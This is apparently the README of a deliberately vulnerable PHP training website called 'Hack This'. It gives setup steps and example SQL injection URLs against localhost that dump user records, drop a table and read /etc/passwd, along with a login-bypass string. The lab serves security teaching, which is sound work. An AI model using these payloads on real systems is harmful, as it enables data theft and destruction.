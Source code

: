 # Hack This
A collection of common web programming mistakes.

This website, when set up and configured, contains a number of vulnerabilities that can be exploited, including:

* SQL Injection
* XSS (Cross-Site Scripting)
* Session Hijacking

## Prerequisites
You'll need to have a web server installed and configured with PHP for this to work. I really recommend [XAMPP](https://www.apachefriends.org/), especially for Windows users. Once you've done that you can proceed.

You'll also need [Node.js](https://nodejs.org/en/) and [npm](https://www.npmjs.com/) installed and working.

## Building
Clone the project down and open the folder in your favourite editor. It's a JetBrains PhpStorm project but you can use whichever paid/free software takes your fancy.

First, install the npm packages necessary to build and run the website. Run the following in your terminal in the project root directory:

```
npm install
```

This will install [Bower](https://bower.io/) which will allow you to install the assets the website requires (Bootstrap, jQuery etc.) using the command:

```
bower install
```

Gulp will also have been installed. This will compile the [Less](http://lesscss.org/) and [CoffeeScript](http://coffeescript.org/) into CSS and JS ready for production. Do this using the command:

```
gulp
```

This command will need running again every time you make a change to a Less file. If you're working on them, run `gulp watch` in a terminal to watch for file changes and compile accordingly.

## Setup
To set everything up, you'll need to: 

* Import the file `db.sql` into your database
* Modify the file `db_configuration.php` to correspond to your database
* Access the site and get hacking

## Examples
Examples of vulnerabilities in this web application include:

### SQL Injection
In an SQL injection attack, malicious SQL statements are inserted into an entry field for execution (usually in a data-driven web application). 

* Get information for all users: 
    - `http://localhost/customers.php?username=leocadio'%20or%20'1'='1`
    - `http://localhost/customers.php?username=leocadio'%20or%20''='`
    - `http://localhost/customers.php?id=1%20or%201=1`
* Drop (destroy) invoices table: 
    - `http://localhost/customers.php?id=1;drop%20table%20invoices`
* Dump the password hash file from the server: 
    - Unix: `http://localhost/customers.php?username='%20UNION%20SELECT%201,1,1,1,LOAD_FILE('/etc/passwd'),'1`
* Dump several things at once (oh boy): 
    - `http://localhost/customers.php?username='%20UNION%20SELECT%201,2,3,4,5,'hello%20world`

### Bypass Login (SQL Injection)
It's possible to bypass login completely (logging in as whoever you like) by adding an always-true condition to the password check:

```
foo' or '1'='1
```

## Acknowledgements
This is heavily based on the [php-sploits](https://github.com/jadz/php-sploits) repository by [Jared Mooring](https://github.com/jadz) and [Allan Shone](https://github.com/CerealBoy). Find the slides for their [SydPHP](https://github.com/sydphp) talk [here](http://www.slideshare.net/CerealBoy/sydphp-security).

The homepage template is a highly modified version of the [Blackrock Digital Freelancer](https://github.com/BlackrockDigital/startbootstrap-freelancer) template. Wonderful, free, MIT licensed template. Check it out if you're in the market for such a thing.

